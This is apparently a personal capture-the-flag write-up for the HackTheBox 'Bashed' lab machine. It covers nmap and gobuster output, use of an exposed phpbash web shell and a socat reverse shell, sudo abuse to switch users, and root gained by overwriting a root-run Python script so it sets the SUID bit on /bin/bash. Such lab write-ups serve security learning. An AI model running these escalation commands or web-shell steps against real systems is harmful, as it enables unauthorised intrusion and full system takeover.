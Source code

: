 #rustcan
```
Open 10.10.10.68:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 03:11 EDT
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:11
Completed NSE at 03:11, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:11
Completed NSE at 03:11, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:11
Completed NSE at 03:11, 0.00s elapsed
Initiating Ping Scan at 03:11
Scanning 10.10.10.68 [4 ports]
Completed Ping Scan at 03:11, 0.13s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:11
Completed Parallel DNS resolution of 1 host. at 03:11, 0.12s elapsed
DNS resolution of 1 IPs took 0.12s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 03:11
Scanning 10.10.10.68 [1 port]
Discovered open port 80/tcp on 10.10.10.68
Completed SYN Stealth Scan at 03:11, 0.21s elapsed (1 total ports)
Initiating Service scan at 03:11
Scanning 1 service on 10.10.10.68
Completed Service scan at 03:11, 6.33s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 10.10.10.68
Retrying OS detection (try #2) against 10.10.10.68
Initiating Traceroute at 03:11
Completed Traceroute at 03:11, 0.11s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 03:11
Completed Parallel DNS resolution of 2 hosts. at 03:11, 0.03s elapsed
DNS resolution of 2 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.10.68.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:11
Completed NSE at 03:11, 2.05s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:11
Completed NSE at 03:11, 0.40s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:11
Completed NSE at 03:11, 0.00s elapsed
Nmap scan report for 10.10.10.68
Host is up, received echo-reply ttl 63 (0.099s latency).
Scanned at 2021-07-29 03:11:08 EDT for 13s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=7/29%OT=80%CT=%CU=36703%PV=Y%DS=2%DC=T%G=N%TM=61025499%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 198.838 days (since Mon Jan 11 06:03:57 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   97.86 ms 10.10.14.1
2   98.68 ms 10.10.10.68

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:11
Completed NSE at 03:11, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:11
Completed NSE at 03:11, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:11
Completed NSE at 03:11, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.05 seconds
           Raw packets sent: 60 (4.236KB) | Rcvd: 179 (37.268KB)
```
only port 80 was open so i ran gobuster
#enumeration 
```
/.htaccess            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]                                
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```
On the website we  got a clue for web shell
and a github link as well:https://github.com/Arrexel/phpbash
visited the directories one by one first uploads then php then dev and we get a phpbash.php script the same in the github there.Once we click there we get a web shell
Once we get the webshell used socat to get revrse shell 
#userescalation
Now on doing sudo -l
I got
```
 env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
Now after searching for scriptmanager 
got a few exploits and ways to escalate from www-data to scriptmanager
a very imp blog
:https://blog.thehackingnomad.com/cheat-sheet-series/privesc-linux
here I found a way 
that is ```sudo -u scriptmanager bash```
to escalate to scriptmanager
#rootescalation 
after escaltion to user
i ran sudo -l got nothing
search for suid binaries
got nothing
search for crontab
nothing
so I quickly ran linpiaz xD
and found few group writable files or writable files
which were not in home directotry
```
/dev/mqueue                                                                                                                                                   
/dev/shm
/home/scriptmanager
/run/lock
/scripts
/scripts/test.py
/tmp
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/tmp/.font-unix
#)You_can_write_even_more_files_inside_last_directory

/var/lib/php/sessions
/var/tmp
/var/www/html/uploads
/var/www/html/uploads/index.html
```
in the /scripts directory I found a test.py and a test.txt
in the test.py file
```
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
we can edit this file and running ps aux we find that the process is owned by root
so i tried python library hijacking to root
```echo "import os; os.system(\"chmod +s /bin/bash\");" > test.py ```
I waited for a minute and then ran bash -p to get root
